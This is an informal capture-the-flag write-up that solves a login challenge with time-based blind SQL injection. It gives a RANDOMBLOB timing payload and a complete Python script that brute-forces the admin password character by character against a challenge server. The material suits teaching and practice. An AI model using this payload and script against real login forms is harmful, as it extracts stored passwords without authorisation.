 let's look at the source code

wow! theres sql! this is sql injection!

i hope none of yall managed to figure out how to bypass the filter (string concat ahem ahem)

but anyways notice how the flag is literally the password of the admin 

...but you cannot log in under any circumstances?? there arent even any error messages????

well turns out we can still find the flag, using an sql time attack

the idea is 

1) check 1 character of the password
2) if we correctly guess that character, make the program spend a long time thinking
3) if we see that the program spent a long time thinking, we know that the character we guessed is correct
4) repeat for all characters in the flag

the challenge states that the flag only consists of curly braces, lowercase alphabets, and numbers, so our alphabet looks like this

```
abcdefghijklmnopqrstuvwxyz1234567890{}
```

but how will we craft our payload?

we can utilize 2 functions in sql: ```SUBSTR()``` and ```RANDOMBLOB()```

```SUBSTR()``` take in 3 parameters: variable, position, length

in python terms its ```variable[position:position+length]```

```RANDOMBLOB()``` generates pseudo-random bytes of some length, and will be quite slow if the length is huge

so, let's craft our payload

```sql
' OR (substr(password,1,1)='a' AND randomblob(1000000000)) --
```

this checks if the first character of the variable password is 'a', and if it is, randomblob is called and the website takes a longer time to return

for the whole brute-forcing script:

```py
import requests
import time

chars = "abcdefghijklmnopqrstuvwxyz}{_13457"
flag = ""
for i in range(9,1000):
    clist = []
    for c in chars:
        start = time.time()
        requests.post("http://159.223.73.72:3957/", data={"username": "admin", "password": f"' OR (substr(password,{i+1},1)='{c}' AND randomblob(1000000000)) --"})
        clist.append((time.time()-start, c)) # duration, character
    clist.sort(reverse=True)
    flag+=clist[0][1] # character that took the longest for a request to complete
    print(flag)
print(flag)

```

this will keep running until we reach '}', where we can stop running the code

each request takes about 0.3 seconds to run, depending on your connection, and if the guess is correct, the request will take around 4 seconds to complete

in total, this code should not take more than 5 minutes to get the flag

flag: deadbeef{r34l_t1m3}
